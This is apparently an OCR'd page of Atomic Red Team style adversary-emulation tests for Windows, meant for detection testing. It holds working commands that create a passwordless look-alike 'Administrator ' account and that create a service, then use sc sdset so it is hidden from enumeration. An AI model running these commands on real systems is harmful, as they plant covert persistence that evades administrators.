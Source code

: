 <br/>
<br/>

## Atomic Test #3 - Create an "Administrator " user (with a space on the end)

Creating a user with a username containing with a space on the end

**Supported Platforms:** Windows

**auto_generated_guid:** 5bb20389-39a5-4e99-9264-aeb92a55a85c

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
New-LocalUser -Name "Administrator " -NoPassword
```

#### Cleanup Commands:

```powershell
Remove-LocalUser -Name "Administrator " 2>&1 | out-null
```

<br/>
<br/>

## Atomic Test #4 - Create and Hide a Service with sc.exe

The following technique utilizes sc.exe and sdset to change the security descriptor of a service and "hide" it from Get-Service or sc query.

Upon successful execution, sc.exe creates a new service changes the security descriptor.

https://twitter.com/Alh4zr3d/status/1580925761996828672
https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-string-format

**Supported Platforms:** Windows

**auto_generated_guid:** 333c7de0-6fbe-42aa-ac2b-c7e40b18246a

#### Inputs:

| Name               | Description                     | Type   | Default Value                            |
| ------------------ | ------------------------------- | ------ | ---------------------------------------- |
| service_name       | Name of service to create       | string | AtomicService                            |
| executable_command | Command to execute as a service | string | C:&#92;Windows&#92;System32&#92;calc.exe |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
sc.exe create #{service_name} binPath= "#{executable_command}"
sc sdset #{service_name} "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```
